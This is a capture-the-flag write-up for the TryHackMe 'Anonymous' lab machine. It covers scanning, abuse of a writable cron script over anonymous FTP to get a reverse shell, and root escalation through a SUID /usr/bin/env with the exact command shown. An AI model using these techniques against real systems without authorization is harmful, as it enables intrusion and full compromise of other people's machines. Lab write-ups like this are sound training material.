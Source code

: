 # Machine-Anonymous-THM-Report
# Compromise Report: Anonymous Machine

## 1. General Information
- **IP**: `<ip>`
- **Difficulty Level**: Medium

## 2. Scanning and Enumeration

### Port Scanning with Nmap
A port scan was performed using the following command:

```bash
nmap --open -T5 -sV -n <ip> -vvv
```

Scan Result:

```
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.0.8 or later
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

Detected Services:
- **Puerto 21**: FTP (vsftpd 2.0.8 o posterior)
- **Puerto 22**: SSH (OpenSSH 7.6p1)
- **Puertos 139 y 445**: Samba (Samba smbd 3.X - 4.X)

### FTP Enumeration
We detected that the FTP port is open for **anonymous** access. We connected with the default credentials and discovered a folder named `scripts` with write and execute permissions.

```plaintext
ftp> ls
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
```

Upon entering the `scripts` folder, we found a file named `clean.sh`, which is executed by cron. We took advantage of the write permissions and uploaded a modified version of the script containing a reverse shell.

## 3. Exploitation: Reverse Shell
We uploaded our own `clean.sh` and set up a listener with netcat:

```bash
nc -lvnp 4444
```

Connection established:

```plaintext
listening on [any] 4444 ...
connect to [10.23.30.52] from (UNKNOWN) [<ip>] 55664
bash: cannot set terminal process group (1398): Inappropriate ioctl for device
bash: no job control in this shell
namelessone@anonymous:~$
```

We have gained access to the machine with the user **namelessone**.

### Access to the Flag `user.txt`
In the folder of the user `namelessone`, we found the flag `user.txt`:

```bash
namelessone@anonymous:~$ ls
pics  user.txt
```

## 4. Privilege Escalation

To enumerate possible attack vectors for privilege escalation, we set up a Python server and transferred `linpeas`.

We found a file with interesting permissions:


```plaintext
-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env
```

By executing the following command, we escalated to `root`:

```bash
namelessone@anonymous:/tmp$ /usr/bin/env /bin/sh -p
```

### Explanation of the Escalation
The command `/usr/bin/env /bin/sh -p` executes a new instance of the shell (`sh`) with the setuid attribute (setuid permissions) of the `env` file, which means that the process runs with the privileges of the file's owner, which in this case is `root`. This allows the user `namelessone` to gain full access to the system as `root`.

```bash
# whoami
root
```
